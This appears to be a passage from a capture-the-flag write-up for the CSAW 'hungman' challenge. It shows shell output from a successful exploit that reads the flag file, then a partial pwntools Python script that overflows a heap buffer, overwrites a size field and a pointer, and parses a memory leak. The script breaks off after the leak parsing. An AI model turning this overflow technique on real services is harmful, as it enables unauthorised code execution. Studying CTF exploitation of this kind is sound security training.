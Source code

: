     $ python exploit.py
    ....
    [*] Switching to interactive mode
    $ ls -la
    total 36
    drwxr-x---  2 root hungman  4096 Sep 19 16:43 .
    drwxr-xr-x 10 root root     4096 Sep 19 16:43 ..
    -rw-r--r--  1 root hungman   220 Sep 19 16:43 .bash_logout
    -rw-r--r--  1 root hungman  3771 Sep 19 16:43 .bashrc
    -rw-r--r--  1 root hungman   655 Sep 19 16:43 .profile
    -rw-rw-r--  1 root root       41 Sep 16 21:13 flag.txt
    -rwxrwxr-x  1 root root    10464 Sep 16 21:13 hungman
    $ cat flag.txt
    flag{this_looks_like_its_a_well_hungman}


The final exploit is the following (horrible) python script, for which i (Swappage) take all the blame.

```python
#!/usr/bin/python

from pwn import *
import string
import struct
import re

buffer = ""
buffer += "A"*192
buffer += p32(0xffffffff)
buffer += p32(0xff)		# we can control the size of malloc in the second iteration
buffer += p64(0x000000602020)
#buffer += "C"*300
buffer += "\n"

buffer2 = ""
buffer2 +="A"*34
buffer2 += p64(0x4242424242424242)
buffer2 += "A"*1020

#buffer2 = pattern2
#buffer2 +="\n"
#buffer2 = "A"*1024
#buffer2 += "\n"

#r = remote("localhost", 8888)
r = remote("pwn.chal.csaw.io", 8003)

raw_input()

print r.recvuntil("name?\n")
r.sendline("A"*176)
print r.recvuntil("_\n")

for a in string.lowercase:
	r.sendline(a)

print r.recvuntil("High score! change name?\n")
r.sendline("y")
#print r.recvuntil("\n")
r.send(buffer)

leak = r.recv()
needle = re.compile(r'Highest player: (.*) score:')
m = re.search(needle, leak)
```